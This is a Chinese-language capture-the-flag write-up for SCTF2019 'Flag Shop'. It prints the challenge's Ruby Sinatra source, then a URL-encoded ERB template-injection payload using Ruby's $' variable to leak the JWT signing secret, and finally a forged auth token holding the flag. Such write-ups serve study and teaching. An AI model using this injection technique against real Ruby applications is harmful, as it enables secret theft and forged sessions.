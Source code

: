 # [SCTF2019]Flag Shop

![image-20210604181759733]([SCTF2019]Flag Shop/image-20210604181759733.png)

## 知识点

- Ruby ERB注入

- JWT 

## 解题

访问robots.txt，提示`/filebak`，查看filebak发现源码

```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end

```



主要代码

```ruby
  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

如果传入的参数do和name一致，则会输出params[:name][0,7]} working successfully!。ruby里有[预定义变量](https://docs.ruby-lang.org/en/2.4.0/globals_rdoc.html)

`$'`-最后一次成功匹配右边的字符串

构造`do=<%=$'%> is working`和`name=<%=$'%>`,记得把里面内容转成十六进制

```
 work?SECRET=&name=%3c%25%3d%24%27%25%3e&do=%3c%25%3d%24%27%25%3e%20is%20working
```

![image-20210604200141622]([SCTF2019]Flag Shop/image-20210604200141622.png)

![image-20210604200533056]([SCTF2019]Flag Shop/image-20210604200533056.png)

把修改的auth值重新发回去

![image-20210604200605359]([SCTF2019]Flag Shop/image-20210604200605359.png)

得到一个auth值

```
eyJhbGciOiJIUzI1NiJ9.W3sidWlkIjoiNTI1YWZlMzMtN2JjMC00ZGVmLWJkYjEtZjY2ZGNjMzM4OGRlIiwiamtsIjoxLjJlKzI4fSx7ImFsZyI6IkhTMjU2In0seyJmbGFnIjoiZmxhZ3tlODk3MWE0MS1kZDliLTQyNDctOWYyZi0zY2VjYWY4OTU5NDN9In1d.mZn1jhy6P2s4hWugMZC9ePjOBTzU2MMoL0lrp9whf8Y
```

![image-20210604200627907]([SCTF2019]Flag Shop/image-20210604200627907.png)